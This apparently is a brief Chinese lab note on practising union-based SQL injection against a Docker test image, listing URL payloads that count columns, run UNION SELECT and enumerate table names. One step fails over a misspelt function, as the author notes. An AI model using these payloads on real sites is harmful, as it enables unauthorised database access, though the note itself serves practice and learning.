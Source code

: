 

名称: dockerproxy.cn/etimeci/sqlmapusageexp

![image-20240902181433-dh7juzq](assets/image-20240902181433-dh7juzq.png)

# [Get Inject](http://113.45.183.4:38544/get.php?id=1)

http://113.45.183.x:45962/get.php?id=1'order by 4--+     字段数为3

![image-20240902181629-59x76do](assets/image-20240902181629-59x76do.png)

http://113.45.183.x:45962/get.php?id=0'union select 1,2,3--+

![image-20240902181730-7behbh0](assets/image-20240902181730-7behbh0.png)

http://113.45.183.x:45962/get.php?id=0'union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()%23

![image-20240902182706-vbxjz1x](assets/image-20240902182706-vbxjz1x.png)

http://113.45.183.x:45962/get.php?id=0'union select 1,2,group_count(column_name) from information_schema.columns where table_schema=database()%23      报错：检查发现函数名又写错了！！！fuck🤬

![image-20240902182846-mb3iuag](assets/image-20240902182846-mb3iuag.png)
